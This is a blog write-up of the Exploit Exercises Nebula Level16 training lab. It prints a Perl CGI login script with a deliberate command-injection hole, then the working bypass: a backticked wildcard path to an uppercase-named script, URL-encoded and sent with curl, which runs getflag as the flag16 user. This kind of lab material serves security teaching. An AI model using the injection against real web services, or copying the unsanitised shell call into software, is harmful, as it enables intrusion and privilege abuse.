 ```yaml
---
title: "Exploit Exercises Nebula Level16"
date: "2016-02-22"
slug: "exploit-exercises-nebula-level16"
Categories:
- Exploit Exercises
---
```


For [Level16], we are told that a perl script is running on port 1616.

The source code for that script is provided:

        #!/usr/bin/env perl

        use CGI qw{param};

        print "Content-type: text/html\n\n";

        sub login {
          $username = $_[0];
          $password = $_[1];

          $username =~ tr/a-z/A-Z/; # conver to uppercase
          $username =~ s/\s.*//;        # strip everything after a space

          @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
          foreach $line (@output) {
              ($usr, $pw) = split(/:/, $line);


              if($pw =~ $password) {
                  return 1;
              }
          }

          return 0;
        }

        sub htmlz {
          print("<html><head><title>Login resuls</title></head><body>");
          if($_[0] == 1) {
              print("Your login was accepted<br/>");
          } else {
              print("Your login failed<br/>");
          }
          print("Would you like a cookie?<br/><br/></body></html>\n");
        }

        htmlz(login(param("username"), param("password")));



<!--more-->

As my buddy Kristian always says, "You can smell the vulnerabilities." Just looking at this code, we can detect some command injection is possible.

Let's work through the filtering that is being performed:

        $username =~ tr/a-z/A-Z/; # convert to uppercase
        $username =~ s/\s.*//;        # strip everything after a space

The comments in the code assist with the regex. Let's bypass the filter:

        level16@nebula:/tmp$ cat FOO
        #!/bin/bash
        /usr/bin/id > /tmp/bar
        /bin/getflag >> /tmp/bar
        level16@nebula:/tmp$ chmod +x !$
        chmod +x FOO

Naming the script FOO will satisfy the uppercase requirement as long as we can call the script using a wildcard, like '/\*/FOO'.

Let's urlencode that and *curl* the page:

        $ urlencode '`/*/FOO`'
        %60%2f%2a%2f%46%4f%4f%60
        $ curl "http://192.168.98.138:1616/index.cgi?username=%60%2f%2a%2f%46%4f%4f%60&password=foo"
        <html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>

We injected the username parameter. Let's see if it worked:

        level16@nebula:/tmp$ cat bar
        uid=983(flag16) gid=983(flag16) groups=983(flag16)
        You have successfully executed getflag on a target account

Success!

[Mike][]

[Level16]: https://exploit-exercises.com/nebula/level16/ "Level16"
[Mike]: /contact "Contact Mike"

